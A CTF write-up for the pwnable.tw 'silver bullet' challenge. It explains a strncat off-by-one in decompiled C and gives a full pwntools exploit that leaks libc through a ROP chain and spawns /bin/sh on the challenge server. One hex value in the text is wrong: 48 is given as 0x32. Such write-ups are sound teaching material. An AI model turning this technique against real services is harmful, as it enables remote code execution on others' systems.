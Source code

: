 +++
title = "pwnable.tw - silver bullet"
date = 2020-02-01T22:31:07.835Z
updated = 2020-12-27
aliases = ["/posts/5d0814ab8487900bf40e47d9-pwnabletw-silver-bullet"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'return-oriented-programming', 'pwntools']
categories = ["ctf-writeups"]
+++

# Challenge
> Please kill the werewolf with silver bullet!
>
> `nc chall.pwnable.tw 10103`


We are also provided a binary and the libc used on the server.

# Solution
When running the binary, we can see that we have four options:

![](5d0810548487900bf40e47d5.png)

The provided binary was not stripped, so reversing was easy with Ghidra.
```c
void create_bullet(bullet *bullet)
{
  size_t size;
  
  if (bullet->description[0] == '\0') {
    printf("Give me your description of bullet :",0);
    read_input((char *)bullet,0x30);
    size = strlen((char *)bullet);
    printf("Your power is : %u\n",size);
    bullet->power = size;
    puts("Good luck !!");
  }
  else {
    puts("You have been created the Bullet !");
  }
  return;
}
```

<!-- more -->

The `create_bullet` function simply reads in 48 (0x32) bytes. Then, the power of the bullet is set to the length of the 
input. Finally, both the power and the input are store in a struct.

&nbsp;

I defined ` bullet` as the following struct:
```c
struct bullet {
    char[48] description;
    uint power;
}
```

```c
void power_up(bullet *bullet)

{
  size_t new_power;
  uint power;
  char input_buf [48];
  
  memset(input_buf,0,0x30);
  if (bullet->description[0] == '\0') {
    puts("You need create the bullet first !");
  }
  else {
    if (bullet->power < 0x30) {
      printf("Give me your another description of bullet :");
      read_input(input_buf,0x30 - bullet->power);
      strncat((char *)bullet,input_buf,0x30 - bullet->power);
      new_power = strlen(input_buf);
      power = bullet->power + new_power;
      printf("Your new power is : %u\n",power);
      bullet->power = power;
      puts("Enjoy it !");
    }
    else {
      puts("You can\'t power up any more !");
    }
  }
  return;
}
```
The `power_up` function reads another 48 bytes as input, then it concatenates it to the stored description and updates 
the power of the bullet. However, there is a hard-to-notice issue with this code. 
[strncat(dest, src, n)](https://linux.die.net/man/3/strncat) writes `n+1` bytes to the destination buffer. The last byte 
is the terminating null byte. If we were to give 48 bytes as input to power_up, then it would overwrite the power of the 
bullet. Now, we can write upto 48 bytes directly onto the stack, and we can use return-oriented-programming to leak a 
libc address and call `system`.

# Script
```python
from pwn import *

elf = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')

context.binary = elf

r = remote('chall.pwnable.tw', 10103)


def skip_menu():
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')


def create_bullet(d):
    r.recvuntil(' :')
    r.write('1')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def power_up(d):
    r.recvuntil(' :')
    r.write('2')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def beat():
    r.recvuntil(' :')
    r.write('3')


rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

print(rop.dump())

create_bullet('A' * 0x2F)
power_up('A')
power_up('A' * 7 + str(rop))

beat()
skip_menu()
beat()

r.recvuntil('!!\x0a')
ADDR_PUTS = u32(r.recv(4))

LIBC_BASE = ADDR_PUTS - libc.symbols['puts']
ADDR_BINSH = libc.search('/bin/sh').next() + LIBC_BASE
ADDR_SYSTEM = libc.symbols['system'] + LIBC_BASE

log.info('puts address: ' + hex(ADDR_PUTS))
log.info('Libc base address: ' + hex(LIBC_BASE))
log.info('System address: ' + hex(ADDR_SYSTEM))
log.info('`/bin/sh` address: ' + hex(ADDR_BINSH))

rop = ROP(elf)
rop.call(ADDR_SYSTEM, [ADDR_BINSH])

create_bullet('A' * 0x2F)
power_up('A')

power_up('A' * 7 + str(rop))

print(rop.dump())

beat()
skip_menu()
beat()

r.interactive()
```

![](5d08149a8487900bf40e47d7.png)

